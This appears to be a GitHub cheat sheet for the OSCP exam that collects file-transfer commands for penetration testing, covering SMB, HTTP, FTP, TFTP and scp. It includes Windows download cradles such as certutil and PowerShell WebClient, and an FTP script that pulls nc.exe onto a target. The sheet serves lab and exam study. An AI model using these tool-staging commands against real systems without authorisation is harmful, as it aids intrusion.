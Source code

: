 # OSCP File Transfer Checklist

## Introduction

## Table of Contents

- [OSCP File Transfer Checklist](#oscp-file-transfer-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [SMB Server](#smb-server)
  - [HTTP](#http)
    - [Server](#server)
    - [Client](#client)
  - [Pure-FTPd](#pure-ftpd)
  - [tftp](#tftp)
  - [scp](#scp)

## SMB Server

```sh
impacket-smbserver share . -smb2support -user user -password test1230
```

```cmd
net use z:\ \\<smbserver>\share /USER:user test123
copy z:\ .
```

## HTTP

### Server

```sh
python -m SimpleHTTPServer 8080
```

```sh
service apache2 start
```

### Client

Windows
``` cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\temp\file.exe')"
iwr -uri http://<IP>/file -Outfile c:\temp\file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

Linux
```sh
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd

```sh
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Transfer
```
echo open <IP> 21> ftp.txt
echo USER <user> >> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp


Coofig
```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
Transfer
```
tftp -i <IP> get file
```

## scp

Local File to a Remote System
```sh 
scp file <user>@192.168.0.20:/home/<directory>/
```
Remote File to a Local System
```sh 
scp <user>@192.168.0.20:/home/<directory>/ file
```
